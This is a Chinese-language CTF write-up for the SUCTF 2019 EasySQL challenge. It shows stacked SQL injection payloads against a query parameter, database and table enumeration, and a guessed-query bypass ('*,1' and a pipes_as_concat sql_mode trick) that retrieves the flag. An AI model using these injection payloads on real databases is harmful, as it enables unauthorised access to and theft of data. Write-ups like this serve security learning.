 # [SUCTF 2019]EasySQL

## var_dump

示例

```php
<?php
$a = array(1, 2, array("a", "b", "c"));
var_dump($a);
?>
```

输出

```txt
array(3) {
  [0]=>
  int(1)
  [1]=>
  int(2)
  [2]=>
  array(3) {
    [0]=>
    string(1) "a"
    [1]=>
    string(1) "b"
    [2]=>
    string(1) "c"
  }
}
```

## 尝试

随便输入数字，回显都是

```txt
Array
(
    [0] => 1
)
```

输入 `xxx'` 没有回显，输入双引号回显 `nonono`，应该是被过滤了，注入点应该为数字型，不同数字回显都相同，说明输入被做了什么处理，先尝试一下堆叠注入

```txt
payload:
query=1;show databases;

回显：
Array
(
    [0] => 1
)
Array
(
    [0] => ctf
)
Array
(
    [0] => ctftraining
)
Array
(
    [0] => information_schema
)
Array
(
    [0] => mysql
)
Array
(
    [0] => performance_schema
)
Array
(
    [0] => test
)

payload:
query=1;use ctf;show tables;

回显：
Array
(
    [0] => 1
)
Array
(
    [0] => Flag
)
```

看到 Flag 表在 ctf 数据库中，尝试 `query=1;use ctf;select 8 from Flag;` 回显 `nonono`，貌似过滤了 `Flag`，然后就是对后端语句的猜测，由于输入任何数字的查询结果都是 1，猜测后端对输入进行了 或 运算，可能是 `select $query || xxx from Flag`，尝试构造 `select *, 1 || xxx from Flag` 选出所有内容。

```txt
payload:
query=*,1

回显：
Array
(
    [0] => flag{3d0b13bc-3751-4669-b658-d339c4359af0}
    [1] => 1
)
```

预期解：
将 `||` 设置为字符串拼接符

```txt
payload:
query=1;set sql_mode=pipes_as_concat;select 1
```
